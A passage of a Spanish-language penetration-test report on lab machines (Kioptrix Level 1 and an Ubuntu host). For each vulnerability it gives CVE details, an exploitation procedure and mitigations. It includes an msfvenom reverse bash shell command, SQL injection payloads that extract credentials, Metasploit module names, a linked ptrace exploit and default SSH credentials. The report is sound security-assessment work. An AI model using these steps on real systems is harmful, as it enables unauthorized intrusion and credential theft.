| **Descripción Breve**      | Vulnerabilidad de escalada de privilegios local que permite a usuarios sin privilegios obtener acceso root mediante una vulnerabilidad en el kernel Linux. |

### Descripción

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Tipo**                  | Escalada de privilegios local                                                           |
| **CVE**                   | [CVE-2003-0127](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0127)          |
| **Gravedad**              | Alta                                                                                   |
| **Vector de Ataque**      | Local                                                                                 |
| **Requiere Autenticación**| Sí (acceso previo como usuario apache)                                                 |
| **Impacto Potencial**     | Control total del sistema como usuario root                      |

### Detalles Técnicos

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Configuración**         | Kernel Linux vulnerable a ptrace que permite a usuarios sin privilegios manipular procesos en ejecución para obtener acceso root. |
| **Exploit utilizado**     | [ptrace-kmod.c](https://github.com/piyush-saurabh/exploits/blob/master/ptrace-kmod.c)                                                          |

### Explotación

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Procedimiento**         | 1. Se obtuvo acceso inicial mediante la vulnerabilidad OpenFuck/mod_ssl (CVE-2002-0082)  2. Se compiló el exploit ptrace-kmod.c usando gcc   3. Se ejecutó el binario compilado  4. El exploit entregó automáticamente una shell con privilegios root |
| **Evidencia**             |  	|

### Sistemas Afectados

| **Campo**                 | **Detalle**          |
|---------------------------|----------------------|
| **Servidor**              | Kioptrix Nivel 1    |

### Mitigación

- Actualizar el kernel del sistema a una versión que corrija la vulnerabilidad de ptrace.
- Aplicar parches de seguridad disponibles para el sistema operativo.
- Implementar control de acceso basado en roles para limitar los usuarios que pueden ejecutar binarios.
- Configurar monitorización para detectar intentos de escalada de privilegios.
- Realizar auditorías regulares de seguridad para identificar vulnerabilidades pendientes.
- Considerar implementación de control de integridad para detectar cambios en binarios críticos del sistema.

## Vulnerabilidad: mod_ssl/Apache - Ejecución Remota de Código (OpenFuck)

### Identificación

| **Campo**                 | **Detalle**                          |
|---------------------------|---------------------------------------|
| **Puerto(s) / Servicio(s)** | 443 / Apache 1.3.20 (mod_ssl 2.8.x)                   |
| **Herramienta(s) de Detección** | OpenFuckV2, searchsploit |
| **Descripción Breve**      | Vulnerabilidad de desbordamiento de buffer en mod_ssl que permite ejecución remota de código mediante la explotación de la inicialización incorrecta de memoria. |

### Descripción

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Tipo**                  | Ejecución remota de código                                                           |
| **CVE**                   | [CVE-2002-0082](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082)          |
| **Gravedad**              | Alta                                                                                   |
| **Vector de Ataque**      | Remoto                                                                                |
| **Requiere Autenticación**| No                                                 |
| **Impacto Potencial**     | Acceso inicial al sistema como usuario apache                     |

### Detalles Técnicos

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Configuración**         | El código de caché de sesión en mod_ssl antes de la versión 2.8.7-1.3.23 no inicializa correctamente la memoria con la función i2d_SSL_SESSION, permitiendo a atacantes remotos explotar un desbordamiento de buffer. |
| **Exploit utilizado**     | OpenFuckV2 (versión modificada para sistemas modernos)                                 |

### Explotación

| **Campo**                 | **Detalle**                                                                            |
|---------------------------|----------------------------------------------------------------------------------------|
| **Procedimiento**         | 1. Se ejecutó el exploit OpenFuckV2 contra el servidor   2. Se usó el parámetro 0x6b (correspondiente a RedHat Linux 7.2 apache-1.3.20-16)   3. Se especificó la IP objetivo y el puerto 4434. Se obtuvo shell como usuario apache |
| **Evidencia**             |   |

### Sistemas Afectados

| **Campo**                 | **Detalle**          |
|---------------------------|----------------------|
| **Servidor**              | Kioptrix Nivel 1 - 10.0.2.135   |

### Mitigación

- Actualizar Apache y mod_ssl a versiones posteriores a 2.8.7-1.3.23.
- Implementar un firewall de aplicaciones web para filtrar tráfico malicioso.
- Configurar correctamente TLS/SSL y deshabilitar versiones obsoletas del protocolo.
- Realizar auditorías regulares de seguridad para verificar las configuraciones.
- Implementar defensas en profundidad para proteger servidores web expuestos.
- Considerar el uso de soluciones de detección de intrusiones para identificar intentos de explotación.
---

# **Vulnerabilides identificadas en el sistema Ubuntu**

## Vulnerabilidad: ProFTPD - Ejecución remota con SITE CPFR/CPTO (CVE-2015-3306)

### Identificación

| Campo                       | Detalle                              |
|-----------------------------|--------------------------------------|
| **Host(s) Afectado(s)**     | 10.0.2.11                          |
| **Puerto(s) / Servicio(s)** | 21/tcp - ProFTPD 1.3.5               |
| **Herramienta(s) de Detección** | Metasploit Framework           |
| **Descripción Breve**       | Se utilizó el módulo `proftpd_modcopy_exec` para abusar de los comandos `SITE CPFR/CPTO` y copiar una carga útil PHP al sistema. |

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Ejecución remota de código                                              |
| **CVE**                   | [CVE-2015-3306](https://www.tenable.com/cve/CVE-2015-3306)              |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | Remoto, sin autenticación                                               |
| **Requiere Autenticación**| No                                                                      |
| **Impacto Potencial**     | Acceso remoto como `www-data`, ejecución de comandos arbitrarios        |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Comandos Abusados** | `SITE CPFR`, `SITE CPTO`                                                                       |
| **Descripción**       | El módulo de Metasploit copia un payload PHP a través del FTP, colocándolo en el directorio web del servidor para ejecutar una shell inversa. |

### Explotación

El módulo `proftpd_modcopy_exec` fue ejecutado desde Metasploit Framework, logrando una sesión remota como `www-data`.







### Sistemas Afectados

| Campo        | Detalle    |
|--------------|------------|
| **Dirección IP** | 10.0.2.11 |

### Mitigación

- Actualizar ProFTPD a una versión superior a 1.3.5  
- Deshabilitar comandos `SITE` innecesarios  
- Restringir el acceso al servicio FTP únicamente a redes de confianza  

### Referencias

- [Nessus Plugin 84215](https://www.tenable.com/plugins/nessus/84215)  
- [CVE-2015-3306 - Tenable](https://www.tenable.com/cve/CVE-2015-3306)  

---

## **Vulnerabilidad: Drupal - SQL Injection (Drupageddon)**

### Identificación

| Campo                      | Detalle                          |
|----------------------------|----------------------------------|
| **Puerto(s) / Servicio(s)** | 80/tcp - Apache (Drupal 7.x)     |
| **Herramienta(s) de Detección** | Metasploit Framework            |

### Descripción Breve

El exploit `drupal_drupageddon` permite la ejecución remota de código a través de una inyección SQL en versiones vulnerables de Drupal 7.x.

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Inyección SQL / Ejecución remota de código                             |
| **CVE**                   | [CVE-2014-3704](https://www.tenable.com/cve/CVE-2014-3704)              |
| **Gravedad**              | Crítico                                                                 |
| **Vector de Ataque**      | Web remota                                                              |
| **Requiere Autenticación**| No                                                                      |
| **Impacto Potencial**     | Ejecución de código arbitrario, obtención de shell remota como `www-data` |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Protocolo**| HTTP / Drupal                                                                                            |
| **Descripción** | Se explota una inyección SQL a través del parámetro `destinations` en formularios web, permitiendo la ejecución de código PHP. A pesar de estar corregido en Drupal 7.32, la instalación vulnerada utilizaba la versión 7.5. |

### Explotación

| Campo        | Detalle                                                                                                   |
|--------------|-----------------------------------------------------------------------------------------------------------|
| **Procedimiento** | Se utilizó el módulo `exploit/unix/webapp/drupal_drupageddon` desde Metasploit, lo que permitió ejecutar una carga útil PHP y obtener una shell inversa. |
  
<h4>Explotación - Drupal Drupageddon</h4>

 
 |

### Sistemas Afectados

| Campo        | Detalle      |
|--------------|--------------|
| **Servidor** | 10.0.2.133   |

### Mitigación

- Actualizar Drupal a una versión superior (preferiblemente 8.x o superior).
- Aplicar todos los parches de seguridad disponibles de Drupal.
- Implementar un firewall de aplicaciones web (WAF) para detectar y bloquear ataques similares.

---

## **Vulnerabilidad:Ejecución remota mediante shell inversa en Bash (msfvenom)**

### Identificación

| Campo                      | Detalle                                |
|----------------------------|----------------------------------------|
| **Puerto(s) / Servicio(s)** | N/A                                    |
| **Herramienta(s) de Detección** | Payload msfvenom / Netcat              |

### Descripción Breve

Se utilizó una shell Bash inversa generada con `msfvenom`, que fue ejecutada desde una sesión SSH previamente comprometida, permitiendo obtener acceso remoto a través de Netcat.

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Ejecución remota de código / Shell reversa                              |
| **CVE**                   | N/A                                                                     |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | SSH / Red local                                                         |
| **Requiere Autenticación**| Parcial (requiere acceso inicial)                                       |
| **Impacto Potencial**     | Acceso completo como usuario con privilegios de `sudo`                  |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Protocolo**| SSH / Bash                                                                                               |
| **Descripción** | Se generó un payload Bash inverso usando `msfvenom` y se ejecutó manualmente desde el host comprometido. La conexión fue recibida en Netcat, otorgando acceso interactivo como el usuario `vagrant`. |

### Explotación

| Campo        | Detalle                                                                                                   |
|--------------|-----------------------------------------------------------------------------------------------------------|
| **Procedimiento** | Se generó un payload con `msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT>`, y fue ejecutado en la máquina remota desde una sesión SSH. |

<h4>Explotación - Bash Reverse Shell</h4>

 

 
 |

### Sistemas Afectados

| Campo        | Detalle      |
|--------------|--------------|
| **Servidor** | 10.0.2.133   |

### Mitigación

- Restringir el acceso SSH únicamente a usuarios autorizados y desde redes confiables.
- Implementar reglas de firewall para bloquear conexiones salientes no autorizadas.
- Monitorizar patrones de tráfico inusual y ejecutar análisis de comportamiento para detectar shells inversas.

---

## **Vulnerabilidad: SSH - Autenticación con credenciales débiles**

### Identificación

| Campo                      | Detalle                             |
|----------------------------|-------------------------------------|
| **Puerto(s) / Servicio(s)** | 22/tcp - OpenSSH                    |
| **Herramienta(s) de Detección** | Metasploit (auxiliary/scanner/ssh/ssh_login) |

### Descripción Breve

Se detectó que el servicio SSH permite acceso con credenciales por defecto (`vagrant:vagrant`), lo que permitió iniciar sesión y escalar privilegios con `sudo`.

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Configuración insegura / credenciales débiles                          |
| **CVE**                   | [CVE-1999-0502](https://nvd.nist.gov/vuln/detail/CVE-1999-0502)         |
| **Gravedad**              | Alta                                                                    |
| **Vector de Ataque**      | Remoto                                                                  |
| **Requiere Autenticación**| Sí (con credenciales por defecto)                                       |
| **Impacto Potencial**     | Acceso total al sistema como usuario `vagrant` con privilegios `sudo`   |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Protocolo**| SSH                                                                                                      |
| **Descripción** | Se utilizó el módulo de Metasploit `ssh_login` con la combinación `vagrant:vagrant`, lo que permitió establecer sesión con privilegios elevados. |

### Explotación

| Campo        | Detalle                                                                                                   |
|--------------|-----------------------------------------------------------------------------------------------------------|
| **Procedimiento** | Se escaneó el servicio con `auxiliary/scanner/ssh/ssh_login` en Metasploit. Las credenciales por defecto permitieron el acceso exitoso. |
 
<h4>Explotación - SSH con credenciales por defecto</h4>

 
 |

### Sistemas Afectados

| Campo        | Detalle      |
|--------------|--------------|
| **Servidor** | 10.0.2.133   |

### Mitigación

- Cambiar todas las contraseñas por defecto inmediatamente después de la instalación.
- Deshabilitar el acceso por contraseña y forzar autenticación por clave pública.
- Implementar políticas de rotación periódica de contraseñas y detección de credenciales débiles.
- Auditar regularmente las cuentas de usuario y sus privilegios.

### Referencias

- [CVE-1999-0502 - NIST](https://nvd.nist.gov/vuln/detail/CVE-1999-0502)
---

## **Vulnerabilidad: Inyección SQL - Aplicación Web de Nómina (Payroll)**

### Identificación

| Campo                      | Detalle                                        |
|----------------------------|------------------------------------------------|
| **Puerto(s) / Servicio(s)** | 80/tcp - Apache (aplicación `payroll_app.php`) |
| **Herramienta(s) de Detección** | Manual / Navegador web                          |

### Descripción Breve

Se identificó una vulnerabilidad crítica de inyección SQL en los campos de entrada de la aplicación de nómina. Esto permitió la obtención de credenciales y posterior acceso SSH con privilegios de root.

### Descripción

| Campo                     | Detalle                                                                 |
|---------------------------|-------------------------------------------------------------------------|
| **Tipo**                  | Inyección SQL / Exposición de credenciales                             |
| **CVE**                   | N/A                                                                     |
| **Gravedad**              | Crítico                                                                 |
| **Vector de Ataque**      | Web remota                                                              |
| **Requiere Autenticación**| No                                                                      |
| **Impacto Potencial**     | Acceso a base de datos, obtención de credenciales, acceso SSH y root   |

### Detalles Técnicos

| Campo        | Detalle                                                                                                  |
|--------------|----------------------------------------------------------------------------------------------------------|
| **Protocolo**| HTTP / SSH                                                                                               |
| **Descripción** | Se explotaron entradas vulnerables con payloads como `' OR 1=1 -- -` y `UNION SELECT null,null,username,password FROM users`. Se extrajeron credenciales y se confirmó su uso exitoso para iniciar sesión SSH como `leia_organa` y escalar privilegios. |

### Explotación

| Campo        | Detalle                                                                                                   |
|--------------|-----------------------------------------------------------------------------------------------------------|
| **Procedimiento** | Se accedió manualmente a la aplicación vulnerable, se ejecutaron pruebas de inyección SQL, se recuperaron credenciales, y se validó el acceso mediante SSH. |
  
<h4>Explotación - Inyección SQL → Acceso SSH</h4>

 

 

 
 |

### Sistemas Afectados

| Campo        | Detalle      |
|--------------|--------------|
| **Servidor** | 10.0.2.133   |

### Mitigación

- Validar y sanear todas las entradas del usuario.
- Implementar consultas parametrizadas (prepared statements).
- Limitar los privilegios de acceso a la base de datos desde la aplicación.
- Utilizar hashing seguro para contraseñas (bcrypt, Argon2).
- Monitorear los accesos SSH y aplicar autenticación fuerte.

---
# 7. Resumen de Vulnerabilidades y Nivel de Riesgo

## 7.1 Clasificación por Nivel de Riesgo

A continuación se presenta la distribución de las vulnerabilidades detectadas en función de su severidad técnica:

| Nivel de Riesgo      | Nº de Vulnerabilidades | Porcentaje sobre el total |
|----------------------|------------------------|---------------------------|
| 🟥 Crítico (CVSS ≥ 9) | ◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️   | 59.09 %                   |
| 🟧 Alto (CVSS ≥ 7)    | ◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️◻️        | 36.36 %                   |
| 🟨 Medio (CVSS ≥ 4)   | ◻️◻️◻️◻️◻️◻️◻️                     | 4.55 %                    |
| 🟩 Bajo (CVSS < 4)    | 0                      | 0.00 %                    |
| ℹ️ Informativo         | 0                      | 0.00 %                    |
| **Total**            | **22**                 | **100.00 %**              |

## 7.2 Top Vulnerabilidades Críticas/Altas por Impacto

| CVE / Descripción                             | Tipo de Vulnerabilidad     | Impacto Esperado                                          | Nivel de Riesgo |
|-----------------------------------------------|-----------------------------|-----------------------------------------------------------|-----------------|
| CVE-2010-2075 – UnrealIRCd Backdoor           | RCE / Backdoor              | Acceso remoto sin autenticación, shell como usuario docker| 🟥 Crítico      |
| CVE-2016-3088 – Apache Continuum              | RCE                         | Ejecución remota como root                                | 🟥 Crítico      |
| Docker Daemon – grupo docker                  | Escalada de privilegios     | Escalada local a root sin exploit de kernel               | 🟥 Crítico      |
| CVE-2014-3704 – Drupal (Drupageddon)          | SQLi / RCE                  | Control de aplicación, extracción de base de datos        | 🟥 Crítico      |
| CVE-2015-3306 – ProFTPD mod_copy              | RCE                         | Shell remoto como www-data                                | 🟥 Crítico      |
| CVE-2014-6271 – Shellshock (Apache/CUPS)      | RCE                         | Ejecución de comandos como www-data / usuario lp          | 🟧 Alto         |
| CVE-2019-5420 – Ruby on Rails                 | Deserialización / RCE       | Ejecución remota como root en puerto 8181                 | 🟥 Crítico      |
| CVE-2022-28330 – Apache HTTP Server           | Lectura fuera de límites    | Acceso a memoria del servidor, posible fuga de información| 🟥 Crítico      |
| CVE-2002-0656 / 0655 – OpenSSL < 0.9.6e       | Buffer Overflow / RCE       | Posible ejecución de código desde canal SSL               | 🟥 Crítico      |
| CVE-2003-0190 / 0682 – OpenSSH < 3.7.1        | Buffer Overflow             | Escalada de privilegios mediante explotación remota       | 🟥 Crítico      |
| CVE-2009-1151 – phpMyAdmin                    | RCE                         | Control del servicio MySQL y acceso a la shell            | 🟧 Alto         |
| SWEET32 – CVE-2016-2183                       | Criptografía débil          | Descifrado de sesiones SSL por colisión en bloques        | 🟧 Alto         |

---

# 8. Resultados Técnicos Detallados

Tabla resumen con detalles técnicos clave de cada vulnerabilidad:

### **Maquina Ubuntu**

